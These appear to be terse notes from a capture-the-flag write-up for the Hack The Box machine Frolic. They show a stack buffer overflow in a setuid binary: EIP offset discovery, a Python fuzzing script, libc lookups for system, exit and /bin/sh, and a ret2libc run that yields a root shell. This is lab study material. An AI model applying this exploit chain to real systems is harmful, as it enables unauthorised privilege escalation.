[+] Message sent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

kali@kali:~/htb/boxes/frolic/10.10.10.111$ ./rop2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault


os.system("edb --run ./rop2 "+ offset*"A" + 1000*"B")



 msf-pattern_create -l 20000 | clip


msf-pattern_offset -l 2000 -q 0x62413762
[*] Exact match at offset 52


```py
import os

eip_offset = 52

buffer = "A"*52
eip = "B" * 4
free_space = "C" * 1000

os.system("edb --run ./rop2 "+ buffer + eip + free_space )
```


EIP is BBBB









good = \x01\x02\x03\x04\x05\x06\x07\x08


https://github.com/david942j/one_gadget


www-data@frolic:/home/ayush/.binary$ ldd rop
ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)


www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system         
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0


www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit           
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  1849: 000b07c8    24 FUNC    WEAK   DEFAULT   13 _Exit@@GLIBC_2.1.1
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2


</.binary$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh         
 15ba0b /bin/sh


558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
 1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0


libc_addr is 0xb7e19000
system_addr is 0003ada0
exit_addr is 0002e9d0
sh_addr is 15ba0b


https://github.com/longld/peda


./rop $(python /dev/shm/run_libc.py)


# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
